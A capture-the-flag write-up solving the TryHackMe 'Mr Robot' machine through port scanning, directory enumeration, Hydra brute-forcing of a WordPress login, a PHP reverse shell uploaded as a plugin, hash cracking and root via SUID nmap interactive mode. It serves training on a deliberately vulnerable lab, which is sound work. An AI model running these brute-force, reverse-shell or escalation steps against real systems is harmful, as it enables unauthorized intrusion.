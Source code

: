 

# Mr Robot CTF
*Can you root this Mr. Robot styled machine? This is a virtual machine meant for beginners/intermediate users. There are 3 hidden keys located on the machine, can you find them?*

## Reconnaissance
Running nmap in aggressive mode we get:
```
┌──(marco㉿DellMarco)-[/mnt/f/kali]
└─$ sudo nmap -A -Pn -sV 10.10.242.93

Nmap scan report for 10.10.242.93
Host is up (0.058s latency).
Not shown: 997 filtered tcp ports (no-response)
PORT    STATE  SERVICE  VERSION
22/tcp  closed ssh
80/tcp  open   http     Apache httpd
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache
443/tcp open   ssl/http Apache httpd
|_http-title: Site doesn't have a title (text/html).
| ssl-cert: Subject: commonName=www.example.com
| Not valid before: 2015-09-16T10:45:03
|_Not valid after:  2025-09-13T10:45:03
|_http-server-header: Apache
```

At a brief inspection of the services we have:
- **Port 22**: closed SSH
- **Port 80**: HTTP Apache web server. A page welcoming us to fsociety with a lot of videos
- **Port 443**: HTTPS Apache web server. Same as above, but more secure :)

## Enumeration
With gobuster we enumerate the root finding a lot of directories:
```
┌──(marco㉿DellMarco)-[/mnt/f/kali]
└─$ gobuster -w /usr/share/dirbuster/wordlists/directory-list-2.3-small.txt dir -u http://10.10.242.93 -x txt,php
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.242.93
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/dirbuster/wordlists/directory-list-2.3-small.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              php,txt
[+] Timeout:                 10s
===============================================================
2022/03/21 15:11:44 Starting gobuster in directory enumeration mode
===============================================================
/images               (Status: 301) [Size: 235] [--> http://10.10.242.93/images/]
/index.php            (Status: 301) [Size: 0] [--> http://10.10.242.93/]         
/blog                 (Status: 301) [Size: 233] [--> http://10.10.242.93/blog/]  
/rss                  (Status: 301) [Size: 0] [--> http://10.10.242.93/feed/]    
/sitemap              (Status: 200) [Size: 0]                                    
/login                (Status: 302) [Size: 0] [--> http://10.10.242.93/wp-login.php]
/0                    (Status: 301) [Size: 0] [--> http://10.10.242.93/0/]          
/feed                 (Status: 301) [Size: 0] [--> http://10.10.242.93/feed/]       
/video                (Status: 301) [Size: 234] [--> http://10.10.242.93/video/]    
/image                (Status: 301) [Size: 0] [--> http://10.10.242.93/image/]      
/atom                 (Status: 301) [Size: 0] [--> http://10.10.242.93/feed/atom/]  
/wp-content           (Status: 301) [Size: 239] [--> http://10.10.242.93/wp-content/]
/admin                (Status: 301) [Size: 234] [--> http://10.10.242.93/admin/]     
/audio                (Status: 301) [Size: 234] [--> http://10.10.242.93/audio/]     
/intro                (Status: 200) [Size: 516314]                                   
/wp-login             (Status: 200) [Size: 2606]                                     
/wp-login.php         (Status: 200) [Size: 2664]                                     
/rss2                 (Status: 301) [Size: 0] [--> http://10.10.242.93/feed/]        
/css                  (Status: 301) [Size: 232] [--> http://10.10.242.93/css/]       
/license              (Status: 200) [Size: 309]                                      
/license.txt          (Status: 200) [Size: 309]                                      
/wp-includes          (Status: 301) [Size: 240] [--> http://10.10.242.93/wp-includes/]
/robots.txt          (Status: 200) [Size: 309] 
```

From this scan we can see two things:
- A robots file
- A WordPress site pages
```
User-agent: *
fsocity.dic
key-1-of-3.txt
```

`key-1-of-3.txt` is the first flag. `fsocity.dic` is a dictionary probably useful later.

## Hack Wordpress
### Credentials enumeration
We don't have credentials to login in WordPress, but we notice that the form tells us whether the username exists or not.<br>
It's time to bruteforce the credentials! With Hydra we can try the found dictionary. The initial one has about 850000 entries, but many are repeated, so we can cut the file with the command `fsocity.dic | uniq | sort > fsocitysortuniq.dic`.<br>
To find the username we can set a test password and try the dictionary on username field like this:
```
┌──(marco㉿DellMarco)-[/mnt/f/kali/TryHackMe/Mr_Robot_CTF]
└─$ hydra -L fsocity.dic -p test 10.10.222.127 http-post-form "/wp-login/:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2Fmrrobot.thm%2Fwp-admin%2F&testcookie=1:F=Invalid username"  
Hydra v9.3 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-03-22 15:58:31
[DATA] max 16 tasks per 1 server, overall 16 tasks, 858235 login tries (l:858235/p:1), ~53640 tries per task
[DATA] attacking http-post-form://10.10.222.127:80/wp-login/:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2Fmrrobot.thm%2Fwp-admin%2F&testcookie=1:F=Invalid username
[80][http-post-form] host: 10.10.222.127   login: Elliot   password: test
```

After finding that the username is `Elliot` we can bruteforce the password in the same way:
```
┌──(marco㉿DellMarco)-[/mnt/f/kali/TryHackMe/Mr_Robot_CTF]
└─$ hydra -l Elliot -P ./fsocitysortunique.dic 10.10.222.127 http-post-form "/wp-login/:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2Fmrrobot.thm%2Fwp-admin%2F&testcookie=1:S=302" 
Hydra v9.3 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-03-22 16:11:33
[DATA] max 16 tasks per 1 server, overall 16 tasks, 11452 login tries (l:1/p:11452), ~716 tries per task
[DATA] attacking http-post-form://10.10.222.127:80/wp-login/:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2Fmrrobot.thm%2Fwp-admin%2F&testcookie=1:S=302
[80][http-post-form] host: 10.10.222.127   login: Elliot   password: ER28-0652
```

The password is `ER28-0652`. Now we can login into the admin panel.

### Reverse shell
In the panel there isn't much interesting, but we find a plugin upload form. Since the site is written in php, we should be able to execute an arbitrary php plugin :)<br>
Now we upload [this](php-reverse-shell.php) reverse shell as a zip and activate the plugin. On our selected port a `daemon` user shell will be waiting for us.
We can even improve it with the command `python -c 'import pty; pty.spawn("/bin/bash")'`<br>

In current directory there's nothing useful, but in `/home/robot/` we find the second key (readable only by `robot`) and password.raw-md5 = `robot:c3fcd3d76192e4007dfb496cca67e13b`.<br>
After cracking it (an online website can do the work without using hashcat or john), we get the password in clear: `abcdefghijklmnopqrstuvwxyz`.
Now: `su robot` -> `cat /home/robot/key-2-of-3.txt`

## Privilege escalation
Finding sudo privileges with `sudo -l` gives us nothing, so we try to search SUID executables with:
```
$ find / -perm /4000
/bin/ping
/bin/umount
/bin/mount
/bin/ping6
/bin/su
find: '/etc/ssl/private': Permission denied
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/sudo
/usr/local/bin/nmap
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/vmware-tools/bin32/vmware-user-suid-wrapper
/usr/lib/vmware-tools/bin64/vmware-user-suid-wrapper
/usr/lib/pt_chown
```

Where's Waldo? Surely nmap is a strange executables to be SUID... With a quick google search we learn of nmap interactive mode, which lets us spawn a shell!<br>
With `nmap --interactive` we enter interactive mode, and with `!sh` we spawn a root shell! Then we can read `/root/key-3-of-3.txt` :)